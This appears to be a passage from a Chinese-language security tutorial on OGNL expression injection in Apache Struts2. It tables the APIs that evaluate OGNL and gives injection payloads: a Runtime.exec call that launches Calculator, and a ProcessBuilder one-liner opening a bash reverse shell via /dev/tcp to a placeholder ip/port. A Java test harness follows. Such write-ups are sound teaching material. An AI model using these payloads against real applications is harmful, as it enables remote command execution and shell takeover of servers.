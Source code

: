 除了一些符号和集合，还支持Projection投影和Selection选择等，具体可参考官方文档：https://commons.apache.org/proper/commons-ognl/language-guide.html 附录Operators部分

也可以参考(https://www.freebuf.com/articles/web/325700.html

## 能解析 OGNL 的 API

能解析`OGNL`的`API`如下表所示:

|                    类名                     |                            方法名                            |
| :-----------------------------------------: | :----------------------------------------------------------: |
| com.opensymphony.xwork2.util.TextParseUtil  |       translateVariables, translateVariablesCollection       |
|   com.opensymphony.xwork2.util.TextParser   |                           evaluate                           |
| com.opensymphony.xwork2.util.OgnlTextParser |                           evaluate                           |
|    com.opensymphony.xwork2.ognl.OgnlUtil    | setProperties, setProperty, setValue, getValue, callMethod, compile |
| org.apache.struts2.util.VelocityStrutsUtil  |                           evaluate                           |
|     org.apache.struts2.util.StrutsUtil      | isTrue, findString, findValue, getText, translateVariables, makeSelectList |
|  org.apache.struts2.views.jsp.ui.OgnlTool   |                          findValue                           |
|   com.opensymphony.xwork2.util.ValueStack   |        findString, findValue, setValue, setParameter         |
| com.opensymphony.xwork2.ognl.OgnlValueStack |  findString, findValue, setValue, setParameter, trySetValue  |
|                  ognl.Ognl                  |             parseExpression, getValue, setValue              |

调用过程中可能会涉及到的一些类:

|                          涉及类名                          |                            方法名                            |
| :--------------------------------------------------------: | :----------------------------------------------------------: |
|    com.opensymphony.xwork2.ognl.OgnlReflectionProvider     | getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue |
| com.opensymphony.xwork2.util.reflection.ReflectionProvider |                                                              |

# OGNL表达式注入

通过基本语法，我们了解到了OGNL可以去调用静态方法传入参数，可以实例化对象调用其中方法赋值，那么特定的写法是可以去命令执行的

```
@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')

(new ProcessBuilder(new java.lang.String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"})).start()
```

测试代码

```
public static void main(String[] args) throws OgnlException, IOException {
        OgnlContext ognlContext = new OgnlContext();
        Ognl.getValue("@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')",ognlContext,ognlContext.getRoot());
    }
```
